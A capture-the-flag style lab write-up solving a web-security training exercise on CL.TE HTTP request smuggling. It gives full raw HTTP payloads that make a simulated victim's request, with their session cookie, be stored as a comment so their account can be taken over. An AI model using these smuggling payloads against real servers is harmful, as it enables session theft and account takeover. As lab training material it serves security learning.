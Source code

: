 # Exploiting HTTP request smuggling to capture other users' requests
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

> The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

# Solution
## Analysis
### Post comment funcionality
|![](Images/image-45.png)|
|:--:| 
| *Posts comment funcionality* |

###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

|![](Images/image-46.png)|
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation
First request poisoned the back-end. Second request that cames from victim is appended to the previous request. Thanks to this a new comment is posted on the website that includes victim's request headers including victim's session cookie.


Read `csrf` token value from browser console:
```
document.querySelector('input[name="csrf"]').value;
```

```
POST / HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Cookie: session=thfAgmOfPbmPeVWvSHCCmfF8a3saXlDU
Content-Type: application/x-www-form-urlencoded
Content-Length: 329
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Cookie: session=c91FQAALRHqe6aVZq7MLClsocCWnUnfC
Content-Type: application/x-www-form-urlencoded
Content-Length: 926

csrf=pnw25B3VWRP9fl19EjZKsNGkn2J8xAzi&postId=9&name=Smuggled&email=Smuggled%40fSmuggled.com&comment=Smuggled
```

|![](Images/image-47.png)|
|:--:| 
| *Request was smuggled successfuly - tested manually by sending 2 requests* |
|![](Images/image-48.png)|
| *Request was smuggled successfuly - final payload* |
|![](Images/image-49.png)|
| *Request was smuggled successfuly - session token in comment* |

